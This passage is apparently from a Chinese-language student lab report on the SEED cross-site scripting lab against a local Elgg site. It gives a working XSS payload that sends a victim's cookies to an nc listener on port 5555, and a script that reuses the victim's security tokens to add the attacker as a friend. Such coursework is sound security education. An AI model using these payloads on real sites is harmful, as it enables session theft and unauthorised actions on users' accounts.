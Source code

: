 
- 上一个任务只能弹出自己的cookie，这一任务中通过JavaScript代码可以看到受害者的cookies。在JavaScript中插入一个`<img>`标签，其`src`属性设置为攻击者的机器。这时浏览器尝试从src字段中的URL加载图片，`HTTP GET`请求发送到攻击者的机器。我们使用JavaScript将cookies发送到攻击者机器的5555端口，此时攻击者的TCP server侦听此端口，服务器则可打印出任何收到的内容。

- Alice作为攻击者，仍在`Brief description`中插入我们的XSS攻击代码：

  ```
  <script>document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + ' >');</script>
  ```

- 打开终端，执行`nc -l 5555 -v`对5555号端口进行监听，

  > -l：指定端口；
  >
  > -v：显示详细信息

- 然后使用Boby的账户登录并且查看Alice的profile，这时在终端就可以得到Boby的cookie信息，如图：

  ![image-20200513224426233](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-7.png)

---

**（5）成为受害者的朋友**

---

- 登陆Boby的账户，访问Alice的主页，点击Add Friend，并同时使用HTTP Header Live查看发送的数据，如图：

  ![image-20200513231952836](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-8.png)

  可以发现：

  - 请求的方式是`POST`
  - 请求的地址是`http://www.xsslabelgg.com/action/friends/add`
  - 请求地址的第一个参数是`friend=`
  - 请求地址的第二个参数是`elgg_ts=`
  - 请求地址的第三个参数是`elgg_token=`

- 综合上面的分析，实验指导中给出了如下的代码用于xss攻击自动添加好友：

  ```
  <script type="text/javascript">
  window.onload = function () {
  	var Ajax=null;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  	//Construct the HTTP request to add Samy as a friend.
  	var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=44" + ts + token; 
  
  	//Create and send Ajax request to add friend
  	Ajax=new XMLHttpRequest();
  	Ajax.open("GET",sendurl,true);
  	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  	Ajax.send();
  }
  </script>
  ```
